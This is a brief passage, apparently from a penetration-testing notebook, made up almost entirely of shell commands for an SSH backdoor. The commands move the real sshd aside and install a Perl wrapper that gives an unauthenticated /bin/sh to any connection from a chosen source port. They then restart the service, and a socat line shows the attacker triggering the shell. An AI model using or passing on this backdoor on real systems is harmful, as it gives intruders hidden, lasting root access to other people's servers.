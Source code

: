 	>cd /usr/sbin
	>mv sshd ../bin
	>echo '#!/usr/bin/perl' >sshd
	>echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..4A/);' >>sshd
	>echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
	>chmod u+x sshd
	>/etc/init.d/sshd restart
	攻击机执行
	>socat STDIO TCP4:192.168.0.110:22,sourceport=13377
![image](/assets/Pentest_Note/master/img/572.png)